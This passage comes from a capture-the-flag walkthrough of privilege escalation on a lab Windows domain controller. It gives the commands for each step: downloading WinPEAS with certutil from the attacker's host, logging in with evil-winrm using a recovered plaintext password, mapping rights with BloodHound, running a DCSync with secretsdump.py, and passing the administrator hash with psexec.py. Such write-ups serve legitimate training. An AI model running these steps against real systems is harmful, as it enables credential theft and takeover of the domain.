

Privilege Escalation
Having gained a foothold on the machine, we can use a script such as WinPEAS to automate enumeration tasks.
Run python server on Kali:
Download WinPEAS:
certutil -urlcache -f http://10.10.14.21/winPEASx64.exe winPEASx64.exe
Run WinPEAS:

Found svc_loanmanager cred. Let's log on using evil-winrm:
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
Since DNS is configured and reachable:

If DNS is not reachable, run SharpHound.exe from the Victim Box (Sauna):
Use the following BloodHound command to get the JSON files:
bloodhound-python -u svc_loanmgr -p Moneymakestheworldgoround! -d EGOTISTICAL-BANK.LOCAL -ns 10.10.10.175 -c All
Start Neo4j and BloodHound and import the JSON files.
After uploading, search for svc_loanmanager, right-click, and mark as owner:


On the left, look for Outbound Object Control - items that this user has rights over. In this case, there is one:

Clicking the "1" adds that item to the graph:

This account has access to GetChanges and GetChangesAll on the domain. While looking at GetChanges help, we found we can abuse it using mimikatz:

DCSync:
My preferred way to do a DCSync attack is using secretsdump.py, which allows me to run a DCSync attack from my Kali box, provided I can talk to the DC on TCP 445 and 135 and a high RPC port. This avoids fighting with AV, though it does create network traffic.
secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
Now that we have the hashes, we can perform a Pass The Hash attack using psexec.py:
psexec.py administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
And boom, we have root: